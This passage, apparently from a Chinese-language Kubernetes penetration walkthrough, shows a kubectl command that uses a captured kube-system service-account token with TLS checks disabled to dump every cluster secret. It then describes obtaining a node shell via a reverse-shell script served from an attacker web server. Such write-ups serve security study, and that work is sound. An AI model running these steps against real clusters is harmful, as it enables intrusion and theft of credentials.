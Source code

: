 ```plain
kubectl --insecure-skip-tls-verify=true --server="https://192.168.17.144:6443" --token="eyJhbGciOiJSUzI1NiIsImtpZCI6Iml3OVRtaVlnREpPQ0h2ZlUwSDBleFlIc29qcXgtTmtaUFN4WDk4NjZkV1EifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJmbGFubmVsLXRva2VuLWhwbGJ0Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6ImZsYW5uZWwiLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiIwMmJmZmUzZi0wNGE5LTQ2MTItYjRjYy1mYjNkNTdiNjZiZDkiLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06Zmxhbm5lbCJ9.oGnRE55P1Dv9W4-Gs8UCp5M1_vdL2flZ0WYJtr8HTMgb2Si6wb-N_ltS1HRi_Q9VHsS_CsjHw3ZqA-jQvbz-RENNLDEL20nUt9J51IyqeGPC3sKAd3fVOZmViIVrYsQSewvPHwPq7qvFnIj1aR-pFYrB47iohej2XvS4aTNZMdpxhL0jCBa3o5SFZg1oNR1rzJd1hhSaCNAbQ7_JMdTuCy4aU0zykVd0GoUF9gXRD7Avx9Y25QGCBTdPgL11fzjcGiG93KtfE4QASiLemnxDF1TPeob9MERFbT6mq-CQ7243U6HjF6Lx-1NfLk52qaXp3hbpGySNudUz_i_Q-KWIgw" get secrets --all-namespaces -o jsonv
```

[![](assets/1698893355-4906b693618f5db8858d0efae120440f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171137-806ab950-7316-1.png)  
Step 6：获取node里pod的shell  
攻击者可以本地搭建web服务，通过在node中的pod里执行反弹语句来获得node的shell，假定这里的192.168.17.161:80是攻击者web服务，之后写入以下反弹shell指令，之后启动一个简易的HTTP服务：

[![](assets/1698893355-f5db2883d1ee300a9158018f6d7eeed2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171203-8f8ed894-7316-1.png)  
在本地浏览器中进行简单测试：

[![](assets/1698893355-17ac8f68ba5a6552b08a2c1fea409da1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171216-976efa26-7316-1.png)  
之后在攻击主机上监听：  